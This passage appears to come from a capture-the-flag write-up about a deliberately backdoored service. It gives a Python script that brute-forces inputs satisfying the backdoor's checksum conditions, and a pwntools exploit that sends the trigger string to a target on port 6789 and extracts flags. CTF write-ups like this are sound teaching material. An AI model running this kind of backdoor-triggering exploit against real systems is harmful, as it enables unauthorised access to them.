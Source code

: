 Because of the requirement that the first, second and third parts of the command must all be equal, there are not a lot of possible commands. It's easy to convert this into a little script to test all possibilities. This uses the [`fixedint`](https://pypi.org/project/fixedint/) package to implement proper signed 64-bit multiplication in Python.

```python
from itertools import product, count
from functools import reduce
import random
import fixedint

alphabet = [ord(c) for c in "abcdefghijklmnopqrstuvwxyz"]

for x in product(alphabet, repeat=3):
    msg = bytes([ord('m'), x[0], x[1], ord('e'), x[2]] * 3)

    xsum = sum(msg)
    xsumhalf = sum(msg[:5])
    xxor = reduce(lambda x, y: x ^ y, msg, 0)
    xmul = reduce(lambda x, y: x * y, msg, fixedint.Int64(1))
    xand = reduce(lambda x, y: x & y, msg, 0xff)
    if ((xsum % 5) in (1, 2, 3) and
        (xsumhalf % 7) in (0, 1, 5, 6) and
        (xxor % 5) in (2, 3) and
        (xand == 0x60) and
        (xmul % 7) in (0, 1, 3) and
        (xsum % 7) in (2, 3, 4, 5, 6) and
        (len(msg) + xsum % 5 + xsumhalf % 5 + xxor % 5 + xmul % 5) == 24):
        print(msg)
```

This script spits out 99 possible commands. Not all of them actually trigger the backdoor, presumably due to differences in how Python and C handle negative modulo, but one input picked at random does in fact trigger the backdoor: `mpteympteymptey`.

So, the exploit is therefore quite straightforward to write:

```python
import sys
from pwn import *
import re

ip_addr = sys.argv[1]

s = remote(ip_addr, 6789)
s.recvuntil('  > ')
s.sendline('mpteympteymptey')

flags = s.recvuntil('That\'s it!')
flags = re.findall(rb'FAUST_[A-Za-z0-9/+]{32}', flags)
flags = [flag.decode() for flag in flags]
for flag in flags:
    print(flag)
```
